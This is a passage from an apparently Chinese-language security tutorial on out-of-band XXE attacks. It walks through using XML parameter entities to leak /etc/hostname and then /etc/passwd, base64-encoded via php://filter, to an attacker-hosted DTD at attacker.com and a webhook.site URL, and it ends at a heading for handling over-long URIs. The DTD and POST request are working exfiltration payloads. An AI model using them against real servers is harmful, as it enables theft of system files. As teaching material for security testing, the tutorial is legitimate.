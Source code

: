 这里，参数实体被用于泄露数据。这是在实体内定义实体的示例，参数化实体%file 在%eval 中被引用。因此，/etc/hostname 的内容添加为请求的一部分，并发送给攻击者。当请求被接收时，我们就能查看到主机名。

[![](assets/1698897039-e6720049c639a6f43139b83d7088ec0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135030-236cc338-aa41-1.png)

主机名是一小段文字，因此很容易检索。但是，如果是较大的文件呢，如`/etc/passwd`。它还有各种各样的坏字符会破坏您的 http 请求。在这个情况下，最简单的解决方案是对有效负载进行 base64 编码。

让我们看看如何做到这一点。

在[http://attacker.com/xxe.dtd上创建一个外部DTD](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E4%B8%80%E4%B8%AA%E5%A4%96%E9%83%A8DTD)

```plain
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/%file;'>">
```

在易受攻击的应用程序中：

```plain
POST /vuln
Host: 1.1.1.1
User-Agent: ....
Content-Length: 123

<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
<!-- load dtd file -->
%dtd;
<!-- Resolve the nested external entity -->
%all;
<!-- resolve the external entity req along with file reference -->
%req;
]>

<app>
<user>foo</user>
<pass>bar</pass>
```

这将会发送携带 base64 编码的`/etc/passwd`的内容的 get 请求。然后可以进一步解码以获得原始的文件内容。

但是等一下！！！,这里可能存在由于 base64 编码的字符串太长而无法作为 http 请求一部分的来发送的情况。反馈会说 URI 太长。

## 解决方案！！
